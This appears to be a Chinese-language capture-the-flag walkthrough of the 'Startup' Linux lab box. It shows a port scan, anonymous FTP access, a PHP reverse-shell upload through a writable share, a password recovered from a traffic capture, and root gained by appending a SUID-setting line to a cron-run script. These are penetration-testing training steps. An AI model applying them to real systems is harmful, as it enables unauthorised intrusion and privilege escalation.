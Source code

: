 ```yaml
---
sidebar_position: 12
tags: [Easy, Linux, 信息泄露, 匿名身份登陆-FTP, 流量包分析, 定时任务]
title: Startup
sidebar_label: Startup
---
```

# Startup
## 端口扫描
```bash
root@ip-10-10-55-94:~# rustscan -a 10.10.43.64 -u 5000 -p 21,22,80 -- -sTCV
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.55.94
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21 - FTP
可以进行匿名身份登陆

```bash
root@ip-10-10-55-94:~# ftp 10.10.43.64
Connected to 10.10.43.64.
220 (vsFTPd 3.0.3)
Name (10.10.43.64:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
然后我下载了其中的文件， 发现其内容为：

```bash
root@ip-10-10-55-94:~# cat notice.txt 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
root@ip-10-10-55-94:~# cat .test.log 
test
```

## 80 - HTTP

![20240528114050](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114050.png)

```bash
root@ip-10-10-55-94:~# gobuster dir -u http://10.10.43.64/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.43.64/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2023/08/05 02:15:46 Starting gobuster
===============================================================
/files (Status: 301)
/server-status (Status: 403)
===============================================================
2023/08/05 02:16:48 Finished
===============================================================
```

发现 `/files` 其对应的目录很像我们的 ftp 共享， 那么我们又注意到在ftp 共享中， 我们对于 ftp 的权限是 777 ， 我们就可以尝试在此上传一个 WEBShell 进行连接

![20240528114112](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114112.png)

```bash
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (141.5820 MB/s)
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Aug 05 01:20 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rwxrwxr-x    1 112      118          5493 Aug 05 01:20 php-reverse-shell.php
226 Directory send OK.
ftp>
```

![20240528114126](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114126.png)

## 后渗透
### www-data
![20240528114141](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114141.png)

根据提示内容， 有些文件不应该属于我们， 我们查找 www-data 和 lennie 的文件， 我们发现一个流量包文件

![20240528114148](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114148.png)

分析这个流量包在其中发现一个密码， 推测是 lennie 的密码 `c4ntg3t3n0ughsp1c3`

![20240528114208](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114208.png)


### www-data --> lennie
![20240528114232](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240528114232.png)

### lennie --> root
在 lennie 家目录发现一个 scripts 目录， 其是 root 用户所有， 根据名字推断其是一个定时脚本文件， 我们没有写的权限， 但是它调用了 `/etc/pring.sh` 这个文件我们可以写

```bash
lennie@startup:~/scripts$ cat << EOF >> /etc/print.sh
> chmod u+s /bin/bash
> EOF
lennie@startup:~/scripts$ cat /etc/print.sh 
#!/bin/bash
echo "Done!"
chmod u+s /bin/bash
lennie@startup:~/scripts$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
lennie@startup:~/scripts$ date
Sat Aug  5 02:01:31 UTC 2023
lennie@startup:~/scripts$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
lennie@startup:~/scripts$ /bin/bash -p
lennie@startup:~/scripts# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
```
